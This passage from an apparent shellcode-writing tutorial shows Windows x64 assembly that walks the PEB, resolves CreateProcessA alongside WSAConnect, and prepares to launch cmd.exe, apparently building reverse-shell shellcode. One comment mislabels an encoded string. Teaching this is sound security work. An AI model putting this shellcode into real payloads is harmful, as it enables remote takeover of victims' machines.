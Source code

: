 With a better understanding of the API prototype and the structures it uses, we continue by integrating the necessary components into our shellcode as has been done in previous steps.

1. Encode the string "CreateProcessA".

    ```
    PS C:\Users\s4dbrd\Desktop> python .\encodeString.py CreateProcessA
    mov rax, 0x41737365636f
    push rax;
    mov rax, 0x7250657461657243
    push rax;
    ```

2. Retrieve the address of the function using GetProcAddress.

    ```
    # Find CreateProcessA address in kernel32.dll
    " xor rcx, rcx;"                  # Zero out RCX contents
    " mov rax, gs:[rcx + 0x60];"      # Retrieve the Process Environment Block (PEB) address into RAX from the GS register.
    " mov rax, [rax + 0x18];"         # Access the Ldr (PEB Loader Data) from the PEB.
    " mov rsi, [rax + 0x20];"         # Get the InMemoryOrderModuleList from the Ldr which lists loaded modules.
    " lodsq;"                         # Load the next module address (the first entry in the module list) into RAX from the address pointed to by RSI.
    " xchg rax, rsi;"                 # Swap RAX and RSI to prepare for the next load.
    " lodsq;"                         # Load the next module address into RAX; RSI now points to the second module.
    " mov rbx, [rax + 0x20];"         # Retrieve the base address of kernel32.dll from the second module's base address field.
    " mov r8, rbx; "                  # Copy kernel32.dll's base address to R8 for later use.
    
    # Find address for CreateProcessA. Store in R12 (previously stored WSAConnect)
    " mov rax, 0x41737365636f;"       # Load "Asseco" onto RAX
    " push rax;"
    " mov rax, 0x7250657461657243;"   # Load "rPetaerC" onto RAX
    " push rax;"                      # Push the string 'CreateProcessA' onto the stack
    " mov rdx, rsp; "                 # Point RDX to the top of the stack, where 'CreateProcessA' string starts.
    " mov rcx, r8; "                  # Move the base address of kernel32.dll into RCX for GetProcAddress.
    " sub rsp, 0x30; "                # Allocate space on the stack to preserve context for the call.
    " call r14;"                      # Call GetProcAddress, with the address in R14.
    " add rsp, 0x30; "                # Deallocate the stack space reserved earlier.
    " add rsp, 0x10; "                # Clean up the stack by removing the 'CreateProcessA' string.
    " mov r12, rax; "                 # Store the address of CreateProcessA in R12 for later use.
    ```

Subsequently, the string "cmd.exe" is encoded:
